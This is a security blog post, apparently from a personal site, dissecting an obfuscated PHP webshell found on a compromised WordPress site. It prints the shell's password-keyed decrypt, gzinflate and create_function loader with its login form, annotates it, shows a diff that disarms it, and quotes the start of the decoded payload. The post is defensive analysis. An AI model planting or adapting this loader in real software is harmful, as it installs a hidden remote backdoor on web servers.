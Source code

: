```yaml
---
layout: post
title: "Highly obfusticated PHP webshell"
date: 2015-11-26 18:54
comments: true
categories:
- security
- php
- webshell
- compromise
- ioc
- wordpress
---
```


If there's one thing to be said for Wordpress blogs, it's that users rarely seem to understand than keeping things up to date is really going to stop them from getting owned 9/10 times.

So if you take one thing away from this post please make sure it's:

1. *KEEP YOUR WORDPRESS INSTALL UP TO DATE*
2. *KEEP ALL YOUR WORDPRESS PLUGINS UP TO DATE*

Simple enough right? of course this isn't a "cure all" and there's other vulnerabilites an mitigations to consider; but not for this post.

# RFI

Remote File Inclusion.

So the site in question had a plugin which was out of date. This plugin had a RFI vulnerability which allowed attackers to upload arbitary code files then head to

https://thesite.com/wp-content/pluginname/uploadedfile.php 

To execute the attack.

Standard, boring crap right ? 

Well this post isn't to focuse on how it happened, nor why it happed. Simply put the php file itself I found very interesting.

# PHP Code obfustication

Sure, code obfustication is not something new, heck tools like msfvenom allow you to choose from a variety of obfustication methods the premis for which is to avoid signatures for "known bad" files, and thus avoid common signatures (which is why you should not rely solely on signature bases analysis).

The thing is the overwhelming majority of webshell obfustication is done through "packing", you'll see it use base64, gzinflate, eval and it's a pretty common standard.

Not this little bastard, and that's why this got my attention

Head of the file:

```php
<?php $wp__wp='base'.(32*2).'_de'.'code';$wp__wp=$wp__wp(str_replace("\n", '', 'QOC7sj/9Bh8g6EJWtzJjaKUSdpGj/VzFUKzIhEUBQzNS4Il8OaZdAcKdt4ix0eWNniRKnvuBmTO2W39H
d7VmyCL7+MB1t1eOa8wWJiYQqisMKzcIhXvmOdkg4LTsDk6HIm+rsjD2nlcBpGKNVW+/irhPtk6zlOIq
aUVBxVWCJ7CT30ogudYn0spol2MwyvBRWJHwaKlKY3bYQ39LodSJUGhlB3tJAMiAvCMLpWp91UHt+Ukm
aHypp+OTC9oWJSwpwALTqIX+z2Yetp8r3RRBf2JYPiUtxuuEsxi4lIGM477sPiLqhFJLI7wiV35oyUJJ
G9Zv4OWsozkEARLUEBqKlxlH21b0+Sv568ea9hMD/JhLLx7TeG3wsqfHQ5yxIY2GTHHq9eT3yeGCteT4
xprMpl7rNcEtG1b6Ez9SSsbG61fEHg4ozeVVyrEPlDscsyXlhysW2kDf1CLg0URWuW7GsiJ2xPsyG+RX
ctsM+8t+W4nbM1AyuxSQv03OoA3R0sGLeicrm41VByDI0lDlwfmwq1K1jT2KsXD60BA/PDs2FBB9IfhJ
awK1/tFiGbi+G/gb9KLEzrr8ZCgkTqH8RWJ/avnDbK/DMBy5rZzVU/VEFNaRTVyN5lBxphQ6nJpT9vM5
Z5Cu7f8PYmaBthyP3iqZk/ur0i1+64uyYe9XaiXkORQ/F90DEaY0m3MAxIptHs8lQMclnoIX27gTJnAv
NpcyJgsM5Z8w/6dApQTxWU4/iA+QIKZATqlKYDpuScahCgOIlenxBhEsjB7s2mpG82vcs+/FoxuobVLZ
```

Well, thats ... interesting ...

Tail of the file

```php
'));$wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);$wp___wp();}}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

## Long string is loooooooong ...

So first it's a base64 encoded string; we know this due to the first line of code
```php
$wp__wp='base'.(32*2).'_de'.'code';
```

Which of course yields 'base64_decode'

So then the next line

```php
$wp__wp=$wp__wp(str_replace("\n", '', 'QOC7
```

Is really:

```
$wp__wp=base64_decode(<payload>)
```

So let's use some python ...

```
>>> payload="""QOC7s...""".replace("\n","")
>>> len(payload)
20432
>>> from base64 import b64decode
>>> b64decode(payload)
'@\xe0\xbb\xb2?\xfd\x06\x1f
...
```

So we have some raw intelligibile data, now the WTF continues ...

## So what now?

Let's look at the tail of the file again it's doing some additional processing let's add some whitespace and comments to make it readable

```php
//Ternary if statements
//if we have the password in the POST or COOKIE var set $wp_wp to this. If not set $wp_wp to null
$wp_wp = isset($_POST['wp_wp']) ? $_POST['wp_wp'] : (isset($_COOKIE['wp_wp']) ? $_COOKIE['wp_wp'] : NULL);

//If wp_wp is not NULL (so we have a password set from the above)
if( $wp_wp !== NULL ) {
    //mutate the var
    $wp_wp = md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));
    //assuming: test123 as the password.
    /*
     * php -r '$wp_wp = "test123"; $wp_wp = md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp)); echo $wp_wp;'
     * cc03e747a6afbbcbf8be7668acfebee56a54720
     */ 
   
    //wp___wp is just an integer itterator, for for readability I'm substituting this for $i 
    for( $i = 0; $i < 15324; $i++){
        //wp__wp is the payload so I'm renaming this also to $payload
        //each char is unpacked by the following line
        $payload[$i] = chr(( ord($payload[$i]) - ord($wp_wp[$i])) % 256);
        //this is then appended to wp_wp (which is the password)
        $wp_wp .= $payload[$i];
    }
  
    if ( $payload = @gzinflate($payload)) {
        if( isset($_POST['wp_wp']) ) @setcookie('wp_wp', $_POST['wp_wp']);
        //recall this line from above: $wp__wp='base'.(32*2).'_de'.'code'
        //$i therefor is base64_decode(<unpacked payload>);
        $i = create_function('',$payload);
        unset($payload,$wp_wp);
        $i();
    }
}?>
<form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

I suppose we _could_ go the python route again, however as we've discerened the function (loop unpack payload -> create_function -> execute function), we can "disarm" it to instead echo out the unpacked code for further analysis.


So the file with the required modifications ...

```
257c257,266
< '));$wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);$wp___wp();}}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
\ No newline at end of file
---
> '));
> 
> $_POST['wp_wp'] = "test123";
> $wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);
> if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);
> //$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);
> //$wp___wp();
> echo $wp__wp;
> 
> }}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

The resuling payload starts off as

```php
@ini_set('log_errors_max_len',0);@ini_restore('log_errors');@ini_restore('error_log');@ini_restore('error_reporting');@ini_set('log_errors',0);@ini_set('error_log',NULL);@ini_set('error_reporting',NULL);@error_
reporting(0);@ini_set('max_execution_time',0);@set_time_limit(0);@ignore_user_abort(TRUE);@ini_set('memory_limit','1000M');@ini_set('file_uploads',1);@ini_restore('magic_quotes_runtime');@ini_restore('magic_quot
es_sybase');
...
```

And continues to create a webshell interface.


#So what?

Granted this may be viewed as little more than a geeks curiosity, however on a more serious note the main intriguing element of this webshell is that the password is an intrinsic part required to unpack the valid payload.

Without the password the unpack will fail; so consider if 

```php
$wp__wp='base'.(32*2).'_de'.'code';
```

Was instead moved to reside inside the packed payload, how would you possibly be able to begin to write a signature for such a file?
Fuzzy logic sure, look for long strings of seemingly random content, still I can see that's going to run false positives in the masses given the various obfusticating options out there for php such as those that require licensening ...

## Mitigation ?

1. SELinux set ON, will limit what the web server process can access (it's not going to stop it getting access to your database servers, and if you have `httpd_can_network_connect` set to true, it's not going to stop it creating a reverse shell either)
2. KEEP UP TO DATE WITH PATCHES, Web application, system packages ... patch all the things!
3. WAF and/or IPS (inspect POST & GET, for SQL, known shell commands and block (will not prevent file download / upload))


